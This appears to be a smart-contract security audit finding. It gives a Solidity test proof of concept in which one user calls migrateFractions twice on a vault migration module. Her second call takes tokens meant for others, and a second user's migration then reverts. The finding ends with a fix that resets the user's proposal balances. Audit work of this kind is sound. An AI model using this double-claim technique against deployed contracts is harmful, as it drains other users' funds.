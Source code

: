 ### Proof of Concept

Test code added to `Migrations.t.sol`:

The test code below shows the first user (Alice) migrating their tokens to the new vault twice before the second user (Bob) calls `migrateFractions` which then fails.

```solidity
	function testMigrateFractionsAgain() public {
        // Setup
        testSettle();
        (, , , , address newVault, , , , ) = migrationModule.migrationInfo(
            vault,
            1
        );
        (address newToken, uint256 id) = registry.vaultToToken(newVault);

        // First user migrates fractions twice
        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), TOTAL_SUPPLY * 2);            // Confirm Migration has all new tokens

        assertEq(getFractionBalance(alice.addr), 4000);                         // Alice joined with 1 ether and 1000 fractions
        alice.migrationModule.migrateFractions(vault, 1);
        assertEq(IERC1155(newToken).balanceOf(alice.addr, id), 6000);           // Alice's shares == 6000

        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), TOTAL_SUPPLY * 2 - 6000);            // Confirm Migration loses new tokens

        alice.migrationModule.migrateFractions(vault, 1);
        assertEq(IERC1155(newToken).balanceOf(alice.addr, id), 12000);          // Confirm Alice gains 6000 new tokens again

        assertEq(IERC1155(newToken).balanceOf(address(migrationModule), id), 8000);            // Confirm Migration loses new tokens

        // Second user attempts to migrate fractions
        assertEq(getFractionBalance(bob.addr), 0);                              // Bob joined with 1 ether and 5000 fractions (all of his fractions)
        vm.expectRevert(stdError.arithmeticError);
        bob.migrationModule.migrateFractions(vault, 1);                         // Bob is unable to call migrateFractions and gain new tokens because the migration module does not contain enough tokens
        assertEq(IERC1155(newToken).balanceOf(bob.addr, id), 0);                // Confirm Bob does not gain any new tokens (supposed to gain 14,000 tokens)
    }
```

#### Recommended Mitigation Steps

A possible fix might be to set the `userProposalEth` and `userProposalFractions` to 0 after the user's tokens have been migrated.
